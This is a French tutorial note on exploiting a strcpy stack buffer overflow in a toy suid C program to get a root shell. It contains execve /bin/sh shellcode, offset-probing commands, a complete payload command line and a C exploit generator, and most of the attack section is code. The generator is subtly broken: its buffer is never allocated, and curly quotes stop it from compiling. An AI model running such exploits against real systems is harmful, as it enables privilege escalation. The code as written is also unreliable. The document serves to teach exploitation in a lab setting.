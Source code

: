 


#### **Théorie**

- La fonction strcpy() ne vérifie pas la taille de ce qu'elle copie ni la taille du buffer dans lequel elle le copie. On va donc pouvoir contourner ça pour modifier l'adresse de retour pour la faire pointer sur notre shellcode qui, lui, va nous donner les droits root.

#### **Pratique**

##### **Exploit 1**

- **Environnement**
	- L'os ne doit pas varier l'adresse de la stack. Donc l'ASLR (Address Space Layout Randomization) ne doit pas être activé.

- **Code source :**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
	- `\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`

- **Exploitation**
	- On ne va même pas lancer gdb dans cet exploit pour s'immerger dans de vraies conditions. Notre but ça va être de devenir root sur la machine (le programme victime doit être suid). On va donc essayer d'injecter un shellcode qui nous lance un shell root. Pour que notre shellcode puisse être exécuté, on va remplacer l'adresse de retour de la stack (main) par l'adresse du début de notre shellcode qui va se trouver dans le début du buffer. Le programme va donc exécuter le shellcode. 
	- Pour ça, on va devoir trouvé l'adresse de début du buffer mais comme on sait que l'adresse de stack (RSP) ne va pas changer (pas d'ASLR), on peut écrire un programme qui la renvoie :
```C
#include <stdio.h>
unsigned long find_start(void){
	__asm__("movl %esp, %eax");
}
int main(){
	printf("0x%x\n", find_start());
}
```
- 
	- Ce script devrait normalement renvoyer toujours la même adresse.
	- On va maintenant tester à partir de quel offset le script victime nous renvoie un segmentation fault pour avoir une idée de la position de l'adresse de retour.
		- `./victim $(printf "%0512x" 0 )`
		-  `./victim $(printf "%0516x" 0 )` 
	- Maintenant qu'on connait la distance de RSP à l'adresse de retour, on va déterminer la taille de l'offset. Notre shellcode fait 40bytes et la distance est de ~520 bytes donc offset = 480 bytes. Étant donné que la fin du buffer va vers  les adresses haute (vers l'adresse de retour), notre adresse qui pointe vers le début de notre shellcode va être à la fin de notre payload. Ça devrait donc ressembler à :
		- `./victim $(printf\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68%0480x\xd8\xfa\xff\xbf)` où tu remarque les 480 bytes d'offset et l'adresse qu'on a trouvé avec notre script à la fin.
	- Normalement, t'as un illegal instruction (si t'as un segmentation fault, change le offset) ça veut dire qu'on exécute bien quelque chose de différent mais l'adresse du début du buffer ne doit pas être la bonne.
	- On va donc faire un script qui adapte l'adresse du début du buffer par rapport à la taille du buffer.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define offset_size 0
#define buffer_size 512
char sc[] =
	"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
	"\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
	"\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

unsigned long find_start(void){
	__asm__("movl %esp, %eax");   // Renvoie l'adresse de rsp (début)
}
int main(int argc, char *argv[])
{
	char *buff, *ptr;
	long *addr_ptr, addr;
	int offset=offset_size, bsize=buffer_size;
	int i;
	if (argc > 1) bsize = atoi(argv[1]);
	if (argc > 2) offset = atoi(argv[2]);
	addr = find_start() - offset;
	printf(“Attempting address: 0x%x\n”, addr);
	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;
	ptr += 4;
	for (i = 0; i < strlen(sc); i++)
		*(ptr++) = sc[i];
	buff[bsize - 1] = ‘\0’;
	memcpy(buff,”BUF=”,4);
	putenv(buff);
	system(“/bin/bash”);
}
```

^aadea3

- 
	- Là en fait l'offset est pas vraiment interessant. On peut prendre l'adresse rsp qui va pointer sur bsize car en fait on s'en fout là c'est pas le programme victime, c'est simplement pour imaginer l'adresse de début du buffer cible. La taille du payload (buf) va donc être cohérente avec l'adresse du début du buffer donc pas de calcul nécessaires.
	- On va donc tester plein de valeur de bsize possible. On ne peut pas le deviner du premier coup donc on y va par tatonnement.
	- À la fin du script, ça lance un shell /bin/bash dans lequel la var d'env BUF sera présente. On pourra donc s'en servir comme arguments/payload pour lancer le programme cible. 
		- `./attack 500`
		- `./victim $BUF`
	- Si ca renvoie un segmentation fault, on est allé trop loin donc on a fait un bsize qui est trop grand par rapport au buffer cible. On va donc diminuer la taille de bsize. Par contre, si y'a pas de réponse, la taille de bsize est trop petite car notre payload n'a pas atteint l'adresse de retour.
	- Normalement, quand tu aura trouvé le bon offset, tu auras un shell root qui va spawn ^e206d8
